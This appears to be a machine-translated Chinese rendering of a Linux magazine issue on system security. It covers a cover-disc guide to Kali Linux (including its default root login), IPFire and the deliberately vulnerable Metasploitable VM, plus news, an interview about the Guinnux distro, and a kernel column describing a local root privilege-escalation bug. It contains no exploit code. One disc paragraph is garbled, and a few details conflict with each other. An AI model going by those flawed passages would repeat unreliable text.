# Linux 用户与开发者 174 - 锁定您的系统


**群晖 RT1900ac 路由器**

智能家居的智能 Wi-Fi

**DS216+II**

# DS216play | DS716+II | DS216+II

**4K 转码与存储解决方案**


# 4K 视频转码

将 4K 视频转码，使其适合所有屏幕和带宽环境，无论是本地媒体播放器还是远程移动设备。

# 将您的 NAS 变身媒体中心

通过我们丰富的应用库，随时随地访问并共享存储在群晖 NAS 上的所有多媒体文件，用于家庭或办公。

# 存储和流媒体播放您的媒体

轻松通过 Roku、Apple TV、Chromecast、三星电视以及所有支持蓝牙、Airplay 和 DLNA 的设备流式传输数字内容。


可用的移动应用


群晖的媒体荣誉


# 欢迎阅读第 174 期《Linux 用户与开发者》


欢迎阅读最新一期的 **《Linux 用户与开发者》**，这是英国和美国 Linux 及开源爱好者的最爱。我们都担心安全问题。作为 Linux 用户，我们的个人机器被收编进僵尸网络的可能性较小，但这并不意味着一旦它感染了恶意软件，就不会愉快地将其转发给基于 Windows 的兄弟设备。此外，网络和物联网本身就存在风险，许多基于 Linux 但由混合架构组成。我们不能依赖 Windows、Android 甚至苹果设备来保护自身安全；我们知道绕过它们的保护是多么容易。只有 Linux 提供了我们实现机器、网络和数据的合理安全级别所需的锁定程度和测试工具。我们将在第 18 页深入探讨这些工具及其专业使用技巧，您也可以在随附的光盘中找到它们（数字版读者可以在我们的 FileSilo 仓库中找到它们）。

同时，在第 58 页，我们将向您展示如何通过巧妙的接口设计和电子技巧来增强您的树莓派。您将从中学习如何更好地利用 GPIO 引脚，以及如何安全地绕过功率限制来为您的树莓派项目“超频”。此外，本期的其余部分还包含了关于安全、编程、管理等内容的教程。

祝您阅读愉快！

**April Madden，编辑**

# 与团队联系：

linuxuser@imagine-publishing.co.uk

Facebook：Linux User & Developer

Twitter：@linuxusermag


访问我们的网站获取更多新闻、观点、教程和评测：
www.linuxuser.co.uk

www.linuxuser.co.uk

## 停止共享！

域名 | 邮件 | 主机 | 电子商务 | 服务器

## 1&1 虚拟服务器云

£4.99/月起*
不含 20% 增值税


可信赖的性能。
Intel® Xeon® 处理器。


### 新品

1&1 消除了“吵闹邻居效应”：新的 1&1 虚拟服务器云 100% 归您专用！无论是作为网页和邮件服务器的初学者，还是更要求苛刻的项目如数据库应用，它都非常理想。立即利用最新的云技术。

- 通过 VMware 虚拟化实现资源独立，不与其他用户共享
- 完整的 root 访问权限
- SSD 存储
- 无限制流量
- 高性能
- 最高级别的安全性
- 最佳的价格性能比
- 7x24 小时专家支持
- 可选 Linux/Windows
- Plesk ONYX


0333 336 5509


1and1.co.uk

* 1&1 虚拟服务器云 S：£4.99/月。计费周期为 1 个月。最短合同期为 12 个月。无安装费。优惠期过后，后续周期将按续费价格收费。价格不含 20% 增值税。请访问 1and1.co.uk 查看完整的产品详情、条款和条件。Windows® 和 Windows® 徽标是 Microsoft® 公司在美国和/或其他国家的注册商标。1&1 Internet Limited, Discovery House, 154 Soughton Street, Gloucester, GL1 2EX.


## 本期免费光盘内容

了解您的免费光盘上有什么

欢迎使用 Linux User & Developer 光盘。本期我们专注于信息安全（InfoSec），帮助您测试安全性，锁定您的系统和网络，甚至探索一个故意存在漏洞的虚拟机，以学习更多关于威胁以及如何应对的知识。通过我们两个发行版，您还可以访问我们信息安全功能中的所有自由及开源软件（FOSS），从而确保您的系统和数据万无一失。

**加载光盘**

要访问软件และ教程文件，只需将光盘插入计算机并双击“InfoSec”。

## 特色软件：

**实时启动**

若要实时启动该光盘提供的发行版，请将光盘插入光盘驱动器并重启计算机。


**Kali Linux**

这款终极安全测试发行版将帮助用户使 Linux 系统和网络固若金汤。使用它来评估我们信息安全功能中的软件，并测试您的系统和网络，以达到最安全的计算标准。请注意，Kali Linux 实时启动版本的默认登录名为 root，密码为 toor。

**IPFire**

这是一款专业且经过加固的 Linux 防火墙发行版，安全、易于操作且功能强大。请注意，您需要从实时启动发行版中安装 IPFire，因此请确保在安装前已备份所有数据并对硬盘进行了分区，以免丢失任何信息或分区。

**请注意：**

- 您需要确保计算机设置为由光盘启动（在计算机 BIOS 界面按 F9 键以更改启动选项）。
- 某些计算机要求您按下一个键才能启用从光盘启动 – 请查阅您的说明书或制造商网站以了解您的 PC 是否属于这种情况。
- 实时启动的发行版是从光盘读取的；除非您选择安装，否则它们不会永久安装在您的计算机上。



## 为了获得最佳效果：

此光盘已针对能够渲染 HTML 和 CSS3 标准最新更新的现代浏览器进行了优化。因此，为了获得最佳体验，我们建议您使用：

- Internet Explorer 8 或更高版本
- Firefox 3.x 或更高版本
- Safari 4 或更高版本
- Chrome 5 或更高版本

**Metasploitable**

Metasploitable 是一个故意存在漏洞的 Linux 虚拟机。该虚拟机可用于进行安全培训、测试安全工具以及练习常见的渗透测试技术。由于其设计本身就不安全，请务必不要在任何运行 Metasploitable 的分区或虚拟机上存储您的敏感或个人数据。

## 光盘有问题？

请发送电子邮件至 lnxuser@imagine-publishing.co.uk。但请注意，如果您在使用我们提供的程序或资源时遇到问题，请联系相应的软件公司。


欢迎使用 Linux User & Developer 光盘。本期我们专注于 Windows，因此为了帮助您被告知您的安全性、VM、锁定您的屏幕和资源，并保留一个明确的封面版本。使用它来了解有关 Linux 以及如何应对更多。通过我们的完整测试演示，您也可以访问我们官方功能中的所有工具，并测试您的系统设置和数据配置。



## 免责声明

**重要信息**

在安装或使用光盘之前请阅读

本免责声明所指的内容包括光盘上提供的所有软件和资源，以及物理光盘本身。

在使用“此光盘”之前，您必须同意以下条款和条件：

**数据丢失**

Future Publishing 在任何情况下都不对因使用“此光盘”而导致的数据或计算机系统损坏、中断和/或损失承担责任。Future Publishing 尽一切努力确保交付给您的“此光盘”不含病毒和间谍软件。我们仍强烈建议，在使用“此光盘”之前运行病毒检查器，并确保在使用“此光盘”之前已对硬盘进行最新备份。

**超链接：**

Future Publishing 不对因访问“此光盘”中发布的超链接而出现的任何损坏承担责任。在制作期间，“此光盘”上的所有超链接均链接到预期的目标。Future Publishing 无法保证在使用时这些超链接指向相同的预期内容，因为 Future Publishing 无法控制通过任何这些超链接提供的内容。

**软件授权**

软件是在不同条款下授权的；请在安装之前确认该程序使用的是哪种授权。

- **共享软件：** 如果您继续使用该程序，您应该向作者注册
- **免费软件：** 您可以免费使用该程序
- **试用版/演示版：** 这些是时间受限的/ 某些功能/特性被禁用
- **开源/GPL：** 免费使用，但有关更多详情请访问 https://opensource.org/licenses/gpl-license

除非另有说明，否则您无权复制和分发“此光盘”。

## 实时启动

将光盘插入计算机并重启。您需要确保计算机设置为由光盘启动

## 自由及开源软件 (FOSS)

自由及开源软件需要通过发行版安装，或者通过光盘界面安装

## 发行版

发行版可以进行实时启动，以便您可以立即尝试新的操作系统，而不会对计算机进行永久性更改

## 探索

或者，您也可以插入并运行光盘来探索界面和内容

# 开源



## 树莓派

树莓派获得显著的速度提升

连接性的改进可能会带来物联网（IoT）发展的新一波浪潮

众所周知，树莓派长期以来被誉为最佳的公共用途单板计算机，部分原因在于其不断的更新以及亲民的价格。然而，其长期以来的一个缺陷是依赖于 Wi-Fi 连接，这对于那些希望开始为物联网进行开发的人来说是一个具体问题。不过，在最近的一次更新中，宣布树莓派 3 的用户将很快能够充分利用其设备上的 LTE 连接。它很快将能够处理低吞吐量的蜂窝通信，这对开发实践是一个巨大的推动。

> “树莓派 3 的用户将很快能够充分利用 LTE 连接”

负责开发该芯片组的是 Altair Semiconductor，该公司以前因其 LTE 芯片组开发而闻名，其中许多已应用于日常用品。“我们致力于提供低成本、高性能的计算机，以连接人们、帮助他们学习、解决问题并享受乐趣，” 树莓派（交易）有限公司首席执行官 Eben Upton 说。“Altair 长期以来被视为 LTE 连接领域的领导者，我们很高兴能参与这次首次进行的协作试验。用户将受益于拥有使用 BT、Wi-Fi 或 LTE 的选择。”

由于 Wi-Fi 网络的局限性，增加 Altair 的 LTE 芯片组应有助于提供更广泛和更灵活的范围。如果正确实施，用户将能够随时随地流媒体传输高清视频，同时与其他应用程序和家庭自动化产品建立连接。新芯片组的下行速度高达 10Mbps，并提供极低的功耗，这与 Pi 的低资源需求非常契合。它完全可以软件升级，预计更新将进一步帮助弥合 Pi 和 IoT 设备之间的连接差距。该芯片组还声称将展示先进的电源管理单元、低功耗 CPU 子系统以及具有强大安全框架的集成 DDR 内存。“Altair 的 LTE 芯片组与 Raspberry Pi 的结合使其成为市场上最具便携性、最实惠且最实用的连接解决方案之一，” Altair 联合创始人兼全球销售和市场副总裁 Eran Eshed 说。“目前为止，已销售超过 1000 万台 Raspberry Pi，我们很高兴能推出这个概念验证，以扩展其范围和价值。”

据说该芯片组的整合是一个渐进的过程，但如果历史可以说明任何问题，我们可以预计所有单元都将具备该芯片，该选项可能在 2017 年上半年可用。我们也很可能会看到 LTE 的开发被引入未来所有型号的树莓派中。如果您不是 1000 万 Pi 所有者之一，您可以访问 www.raspberrypi.org 查看所有定价和购物选项。


*上图：LTE 连接很快将成为 Pi 的重要组成部分*


## TOP FIVE

## 最适合道德黑客实践的发行版

### 1 Kali Linux

虽然 Kali Linux 并不总是处于聚光灯下，但它预装了超过 600 款渗透测试工具，极大地丰富了你的安全工具箱。这些工具高度灵活，许多工具会定期更新。更棒的是，它们可以轻松部署到不同的平台，包括 ARM 和 VMware。

### 2 Pentoo Linux

基于 Gentoo，Pentoo 可以清晰地运行在任何现有的 Sentinel 安装之上。其工具包从漏洞利用到数据库扫描器应有尽有，为你提供了测试安全所需的一切。

### 3 Parrot Security OS

Parrot 最出色的地方之一在于其轻量级特性，使其成为那些运行老旧或缓慢硬件的用户的可行选择。然而，它在功能上并不臃肿，你需要自行寻找所有可能需要的渗透测试工具。

### 4 DEFT Linux

在数字取证方面，DEFT Linux 是无可替代的。它附带了大量令人惊叹的取证工具，这些工具特别为渗透测试人员量身定制。它还基于 Ubuntu，这有助于其定制化。

### 5 Caine

当涉及到将日常发行版应用程序（如浏览器和电子邮件客户端）与高度复杂的取证套件相结合时，Caine 是列表中最好的选择。它既能良好地执行这两种功能，又可以从光盘或硬盘运行。

## 开发

## 编译代码变得更加简单

Red Hat 开发者工具集迎来重大更新

将稳定的操作系统与最新的开发工具相结合从来都不是一件容易的事，因此，Red Hat 的开发者工具集达到第六次重大更新，正是对其努力的有力证明。对于不了解这一点的读者，Red Hat 开发者工具集的主要目的是通过让开发者能够使用最新的开源 C++ 和 C 编译器性能分析工具，来简化应用程序开发。

通过这些工具，开发者可以编译应用程序并将其部署到多个版本的 Red Hat Enterprise Linux 中。第六次更新的一个关键部分是它扩展到了更多的架构。这包括运行在 x86 系统上的 Red Hat Enterprise Linux、RHEL for z 系统以及 RHEL 的 ARM 开发者预览版。

资深用户将发现新的工具和更新，这些构成了开发者工具集及后续 Red Hat Software Collection 的基础。PHP、Python、Ruby 和 MongoDB 等都经历了重大更新，而 Git 2.9，这款开源版本控制系统，也在该工具集中首次亮相。

其他新增内容包括 Redis 3.2 和 MySQL 5.7 开源数据库的出现，以及新的 JVM 监控工具 Thermostat 16。眼光敏锐的用户还会发现包含了最新稳定版的 Eclipse Neon，这对于那些对 Eclipse 集成开发环境中的最新工具有兴趣的人来说是一个理想的解决方案。

为了真正让该工具包超越竞争对手提供的功能，特定于工具集的更新也非常丰富。GNU 编译器集合（GCC）和 GNU 项目调试器（GDB）都已更新到最新版本，而 numerous 工具链组件和性能工具，特别是 Dyninst 和 Valgrind，都经过了增强。

目前，该工具集可供所有 Red Hat 开发者计划成员以及当前拥有特定 RHEL 订阅的用户使用。今年晚些时候，面向尚未加入的开发者将包含免费的 RHEL 开发者订阅，但截至撰写本文时，尚不清楚此订阅将在何种条款下提供。

## 开源

你的 Linux 新闻与观点来源

## STEAMOS

## SteamOS 2.97 修复 Steam 控制器兼容性问题

最新更新为游戏玩家提供了必要的错误修复

如今，Steam 控制器在 SteamOS 上完美运行

Valve 最近发布了稳定的 SteamOS 2.97 维护更新，距离其上一个版本 SteamOS 2.87 的发布已近三个月。在幕后，就与 Debian 稳定仓库同步而言，SteamOS 仍处于开发阶段，但最新的 2.97 更新通过纳入 BIND9、cURL 和 GStreamer Bad Plugins 1.0，进一步缩小了差距。使 SteamOS 和 Debian 完全同步将有助于保证游戏客户端能够接收与 Debian 操作系统同时实施的最新安全修复。在最近的更新中，Linux 论坛充斥着有关 Steam 控制器的兼容性问题，但新的改进应该有助于消除这些问题。新实现的 X.Org 服务器现在会忽略摇杆设备，这反过来又防止了控制器和鼠标输入被混淆。初步的公开反馈表明，这对于受先前测试版客户端中该问题困扰的用户帮助巨大。从内部来看，SteamOS 2.97 随附了一系列针对 libxslt、tdsdata 和 GNU Tar 包的安全更新，为每个包提供了最新的修复和补丁。最后，firmware-relink 包已重新引入，这有助于无人值守升级功能再次繁荣。这是先前测试版更新中非常缺失的功能，所以我们很高兴看到它重新投入使用。Valve 已正式表示，强烈建议用户尽快将 SteamOS 客户端更新到最新的 2.97 版本。希望更新的用户应前往 steamcommunity.com 上的 Steam Universe 小组，以获取所有必要的安装映像。

> 完全同步将有助于保证游戏客户端能够接收最新的安全修复

## 开源

## 微软和谷歌做出开源承诺

尽管近几个月来，微软在支持开源世界（在某种程度上包括 Linux）方面加大了力度，但事情终于走到了一步，它正式成为了 Linux 基金会最新的高知名度成员。尽管微软有着长期的闭源软件历史，微软的成员已公开表示，这一合作伙伴关系将帮助这家雷德蒙德的巨头为比以往更多的人开发和交付新的移动和云体验。微软最近因发布源代码仓库而受到赞扬，这比几年前进步了一大步，但更令人印象深刻的是它与开源社区合作的工作。最近，它一直在许多关键开发项目中寻求社区共识，用户反馈帮助塑造了其开源文化。同样令一些人惊讶的是，谷歌加入 .NET 基金会成为不断壮大的指导小组成员的消息。尽管谷歌对 Java 感兴趣，但此举被视为帮助改进其自身 Google Cloud 平台对 .NET 支持的一种方式。展望未来，尚不清楚谷歌将如何借助其计划推动 .NET 的前进，尤其是在谷歌对基于 Java 的 Android 平台的投资方面。我们能否期待看到 Visual Studio 在某个时刻登陆 Android？谁知道呢……微软和谷歌的公告可能令人惊讶，但这证明了为促成这些合并铺平道路的开源社区开发者们的努力。

> 更令人印象深刻的是它与开源社区合作的工作

## 硬件

## 西部数据发布兼容树莓派的硬盘系列

全球树莓派用户拥有丰富的存储选择

西部数据长期以来一直是使全球用户更容易获得存储技术的先驱。其最新公告介绍了一套新工具包，帮助你的树莓配备硬盘存储解决方案。这款名为 WD PiDrive Foundation Edition 的硬盘附带完整的自定义软件构建，紧密基于 Raspbian OS 和 NOOBS OS 安装程序。对于最终用户而言，这种组合可以在硬盘本身上快速简单地安装 Raspbian PIXEL 和 Raspbian Lite。

该硬盘提供三种容量版本：64GB 闪存驱动器、250GB 磁盘驱动器和 375GB 磁盘驱动器。两个较大容量的选项都将包含一根 WD PiDrive 电缆，这是一种独特的电缆，可同时为硬盘和树莓提供最佳的供电选项。由于硬盘相比树莓派传统存储选项 microSD 卡拥有更大的空间，西部数据实施了一个名为 Project Spaces 的独家功能。这允许安装多达五个核心操作系统，为每个系统划分硬盘区域，并赋予树莓派用户广泛的选择。

WD PiDrive 的版本在官方 www.wcd.com 网站上起步价仅为 18.99 美元。

## 编程

## Node.js 基金会实施新的安全项目

流行的开源应用程序编程框架持续增长

为了整合并提高其日益流行的开源编程框架的整体安全级别，Node.js 已将其自身的 Node.js 安全项目纳入其中。Node.js 安全项目最初建立是为了帮助收集关于 Node 用户最常面临的漏洞的信息。作为 Node.js 基金会的直接组成部分，它将用于帮助修补漏洞并识别框架内的核心弱点。

Node.js 安全项目的另一个主要作用是帮助管理该框架闻名的模块生态系统。在过去 12 个月中，模块系统的规模几乎翻了三倍，随着此类发展，安全性必须放在首位。论坛中充斥着 bug，因此这种额外的安全层可能成为改变游戏规则的因素。

预计合并将在一定时间内逐步进行，安全协议将在框架中实施，并迅速引入给用户。

## 发行版动态

### 前十名

*(平均每日访问量，11月15日 - 12月15日)*

- 1. Linux Mint ▲ 2,629
- 2. openSUSE ▼ 1,708
- 3. Debian ▲ 1,707
- 4. Zorin ▼ 1,374
- 5. Ubuntu ▼ 1,324
- 6. Fedora ▲ 1,298
- 7. Manjaro ▼ 1,271
- 8. Elementary ▲ 881
- 9. Deepin ▼ 862
- 10. Antergos ▼ 806

### 本月

Fedora 25 的发布有助于重新激发人们对该发行版的重大兴趣，它吸引了新一波用户，并吸引了那些此前已弃用它的用户回归。

### 亮点

- **Elementary OS**
  尽管 0.4 Look 更新已于五个月前发布，新用户仍在涌向 elementaryOS。其强大的易用性与出色设计的结合证明很难被超越。

- **Mint**
  Linux Mint 的 18.1 测试版帮助其保持在下载列表的榜首位置。其最大的新增功能是一个带有内置播放控制的新音频播放软件；它相当不错！

- **Fedora**
  很难不被 Fedora 在第 25 次更新中所取得的成就所打动。特别是 Workstation 版本速度快，成为新手和资深用户 alike 的首选发行版之一。

最新可用发行版：filesilo.co.uk


# 访谈约翰·艾格莱尔

## Arch 的新面孔

Guinnux 让 Arch Linux 的烦恼成为过去。创始人约翰·艾格莱尔详细阐述了他革命性的发行版是如何成形的


**约翰·艾格莱尔**
是 Keystone Electronic Solutions 的创始人和总监。他位于南非，处于 Guinnux 发行版以及一系列基于 Guinnux 的硬件领域的前沿。


> **Guinnux 开发了多久？最初的想法是从哪里来的？**

Guinnux 于 2010 年作为一个 buildroot 项目启动。我们很快意识到嵌入式安装和 Linux 服务器部署在需求方面具有相似性，并且主要需要无人值守。除此之外，我们的目标是促进一个结构化的开发环境。这就是 Guinnux 许多目标的起源。

此外，buildroot 不够灵活，无法脱离 uClibc 并在现有框架上部署新解决方案。当你拥有成百上千个站点时，部署镜像而不是分阶段更新站点是不可行的。正如你可以想象的，保持所有这些开发和运行时环境同步最终变成了一份全职工作。自那以后，我们一直能够增强并构建 Guinnux 所基于的原则，发展出你今天看到的项目和发行版。

**对于可能不了解 Guinnux 发行版的读者，能否给我们介绍一下它是什么以及它的关键特性？**

Keystone Electronic Solutions 的企业级嵌入式 Linux——名为 Guinnux——基于 Arch Linux ARM。它由我们开发和维护，使构建自定义包和解决方案变得容易。它采用了 Arch Linux 的工作方式，但增加了必要的额外功能。别误会，Arch Linux 有很多很棒的地方，但当它本不需要时，它可能过于复杂。因此，我们的目标是让它更易于访问，并大幅扩展其功能集。

Guinnux 救援文件系统允许用户在嵌入式系统故障时启动到闪存中，并允许简单的系统恢复——迄今为止我们对此收到了很多积极的反馈。系统可以恢复而不必重新刷写镜像——这是一个非常有用的附加功能，不仅节省时间！事实上，对于企业部署来说，恢复是至关重要的，更令人惊讶的是，这是许多其他企业级发行版中常被遗漏的功能。

我和团队正在开发的其他功能包括改编引导加载程序，使用户能够从任何外部文件系统启动内核。这使得 Keystone 能够在任何时间、任何地点分发和升级内核软件包，而不会中断服务。用户还可以在我们的官方 Wiki 页面：http://wiki.guinnux.org/doku.php 上找到关于 Guinnux 的大量额外信息。

## 与嵌入式 Linux 发行版相比，Guinnux 的真正独特之处是什么？

Guinnux 是第一个模拟企业 Linux 解决方案经过验证的工作流的嵌入式 GNU/Linux 发行版。我们致力于将企业发行版中所有优秀的东西——有很多——与我们在 Guinnux 中引入的核心稳定性和改进相结合。

用户还会发现 Guinnux 是一个无头企业级嵌入式 Linux 发行版，但它[仍然]为我们的所有用户提供一个成熟且稳定的开发环境。我们还致力于提供全面的网络与协议兼容性套件，这是我们的许多竞争对手传统上处理较慢的领域。除此之外，Guinnux 还标准地提供内置的系统恢复和安全机制，以及具有极少停机时间的 OTA 更新。对于新用户，我们也确保 Guinnux 开箱即用，提供无忧部署和预装的标准基于 Web 的配置界面。我们最后的亮点是 pacman 包管理系统，它将简单的二进制包格式与易用的构建系统相结合。pacman 的目标是能够轻松管理包，无论是来自官方仓库还是用户自己的包构建。


## 熟悉 Guinnux 入门套件

Guinnux 入门套件旨在成为所有可能需要开始使用 Guinnux 进行开发的一站式商店。它是评估 Guinnux 向其用户提供的运行时和开发环境的入口点。该套件本身包括一个基于 ARM9 的开发板、一个 5V 外部电源和一个用于该板的 microSD 卡。该开发板包含多个 I/O 接口，如 RS232 串口、USB 1.1 主接口、10MB 局域网，以及一个 10 针扩展连接器空间。其他规格包括 64MB SDRAM 和电池备份的 RTC。

最新版本的 Guinnux 已预编程到板上，随附的 ext4 根文件系统引导并加载到 microSD 卡上。额外的二进制和系统镜像可从官方 Guinnux 站点下载。标准配置下，根文件系统包含所有核心实用工具，用于远程访问和定制 Guinnux 开发板，因此请期待诸如 DPKG 包管理器和 openSSH 服务器等功能。感兴趣的人士可以在 **www.kaes.net** 上获取 Guinnux 入门套件。



## 将 Guinnux 带到 Pi 上

Guinnux 开发中最有趣的事情之一是，它现在可以在许多第三方板上运行。虽然很多人对在 Beagle Bone Black 板上移植 Guinnux 感兴趣，但大多数用户可能希望熟悉 Raspberry Pi 上的发行版。Guinnux 在 Pi 上的可用性是通过 NOOBS 操作系统镜像实现的，但有一个转折。与其他 NOOBS 镜像不同，Guinnux 首先安装故障回退救援系统，然后使用该系统下载并安装基础的 Guinnux 包。对于最终用户，这将下载和安装时间降至最低。当然，用户也可以选择直接下载 NOOBS 镜像到 SD 卡上并安装。

Guinnux，通过这种方式，但过程要复杂得多。一旦 Guinnux 和 Pi 的合作完成，用户就可以开始使用完整的配置 Web 界面，该界面可以根据你的确切需求进行定制，并帮助优化 Pi 所能处理的内容。


## 发行版中有多少部分是核心 Arch Linux？对其进行了大量修改吗？

几乎全部都是核心 Arch。我们将核心组件结合在一起，以允许在 Arch Linux 系统之上开发企业解决方案。

我们的主要重点是允许将更多应用程序部署到核心上。我们添加了嵌入式发行版预期的组件，如 Web 配置站点以及控制嵌入式硬件的模块/库。正如我之前提到的，Arch 是一个很难理解的发行版，因此我们希望让它对潜在的新用户更具吸引力。我们想认为我们在这方面做得不错。

**我们听说你的团队对 Arch Linux 中的构建工具进行了一些更改。这些更改是什么类型的？**

我们使 makepkg 实用工具（以及其他工具）支持交叉编译。这与执行集群构建的通常方法不同。生成的包还通过修改的 pacman 实用工具无缝集成到工具链中，使得用户可以像管理普通发行版一样管理他们的工具链。



**你的网站上也展示了一些基于 Guinnux 的硬件，这些对于新手和高级 Linux 用户来说是不错的选择吗？它们更适用于公司还是创客？**

Guinnux 非常适合我们自己的 Blue Penguin 板，因为这是 Guinnux 的主要开发平台。Blue Penguin 模块经过实地测试，并用于多个企业解决方案。它们非常适合那些想要生产严肃的工业级嵌入式平台的公司。然而，我们也认识到创客市场，这就是为什么我们将 Guinnux 移植到 Raspberry Pi，并且目前也正在将其移植到 Beagle Bone Black 板上。我们一直在寻找新的方式，以吸引新用户尝试 Guinnux，因此能够集成到其他板中是其中的一大部分。希望我们能在不久的将来继续将其移植到其他领域。



**你如何看待 Guinnux 的未来？你认为开发周期会有多活跃？**

Guinnux 将继续跟上主流 Linux 发行版，使嵌入式环境接近 PC 环境。这极大地改善了开发体验。发布计划每年进行一次，具体取决于我们认为当时需要实施的变更。我们不断添加我们需要的功能，并欢迎 Linux 社区在我们的网站和论坛上参与开发。

> “我们一直在寻找新的方式，以吸引新用户尝试 Guinnux。”


# 观点

## 内核专栏

Jon Masters 总结了 Linux 内核社区的最新动态


**Jon Masters** 是一位 Linux 内核黑客，从事 Linux 开发已有 19 年左右，自他 13 岁第一次上大学起便开始了这段历程。Jon 现居马萨诸塞州剑桥市，受雇于一家大型企业级 Linux 供应商，在那里他正主导制定面向低功耗 ARM 架构服务器的标准。

Linus Torvalds 宣布发布 Linux 4.9 内核，并指出这“是我们有史以来最大的一次发布，至少在提交次数方面”。事实上，数据远超以往。拥有超过 16,000 个变更集（比上一个版本多出 3,000 个），Linux 4.9 是近年来规模最大的内核。每一个变更集都代表一组补丁，其中许多补丁在开发过程中经历了多次迭代和审查。这一切都很好地解释了为什么 Linux 决定在（罕见的）RCB 之后多等待一周，才正式发布最终版本的内核。

最新内核包含我们在之前几期中报道过的多项新功能，包括对 Intel 内存保护键（Memory Protection Keys）的支持，以及 Andy Lutomirski 在虚拟映射内核栈（Virtually Mapped Kernel Stacks）方面的工作。后者将增强内核在若干边角案例问题上的韧性，例如使用极稀有的代码路径导致固定大小的内核栈溢出，或某些较为隐蔽的安全漏洞形式。事实上，CONFIG_VMAP 已经导致了一些额外的清理工作，包括更好地支持虚拟地址调试，以及识别出内核在处理传统的仅支持 32 位 x86 处理器时存在的长期处理器异常 bug。

与此同时，Intel 的内存保护键旨在防御某些形式的缓冲区溢出及其他安全问题，同时提供了一种隔离某些敏感内存区域（例如包含用于加密的私钥的区域）的手段。4.9 版本的其他功能还包括大量有用的驱动程序更新，包括对 geysbus 子系统的支持，该子系统曾用于我们之前报道过的（已停用的）Google Ara 项目。最后，一个由本文作者多年前手工拼凑（后来由他人更清晰地重写）用于诊断实时 Linux 系统问题的硬件延迟检测器终于被合并（见新的 hwlat 追踪器）。

Linux 原本计划提前一周发布 4.9 内核，但截至 4.9-rc6 版本时，Linus 暗示可能会延期。当他添加了（不寻常的）4.9-rc8 并指出事情尚未平静到让他有信心发布最终版本时，这一延期得到证实。这意味着 Linux 4.10 的时间表至少有些尴尬，因为合并窗口将在圣诞节当天关闭。不过，Linus 确实指出，这“纯粹是个技术性问题，因为我肯定最迟会在 23 号停止拉取代码，如果我被卷入圣诞食物准备工作中，甚至那个日期也值得质疑。”

## 更多安全漏洞

过去一个月宣布了三项影响 Linux 内核的关键安全问题。其中最严重的是 CVE-2016-8655，即“Linux af_packet：竞态条件（本地 root）”，其中精心构造的软件调用序列进入非特权命名空间代码（被许多发行版中的容器使用），可被用于让内核执行受攻击者控制的内存的“释放后使用”（use after free）类型的访问，从而导致权限提升至 root 用户级别。

该问题的最初发现者 Philip Pettersson 报告称，他“通过阅读由非特权命名空间的出现而敞开的代码路径发现了这个 bug，我认为在所有 Linux 发行版中，这种功能默认应该是关闭的。” 这些命名空间中的许多更改是为了支持 Linux 容器而进行的，但其中一些更改打破了先前关于特定操作具有特权的假设，因此或许不像 Philip 在此处所进行的那种代码审计那样受到重视。

表面上看，我们似乎正在经历一波影响 Linux 内核的安全 bug。但部分原因是，此类漏洞利用如今通常伴随着令人难忘、听起来可爱的名字、博客、Twitter 账号，以及热衷于宣传其“发现该问题”服务的企业公关团队。这推动了对安全的更多关注（这未必是件坏事）。同时，Linux 如今对那些搞破坏（或仅仅为了公关机会）的人来说成了一个极具吸引力的目标。在许多方面，从破坏 Linux 中获得的收益比破坏 Windows 或 Mac OS 更多，就高价值目标而言尤其如此。

## 异构内存管理

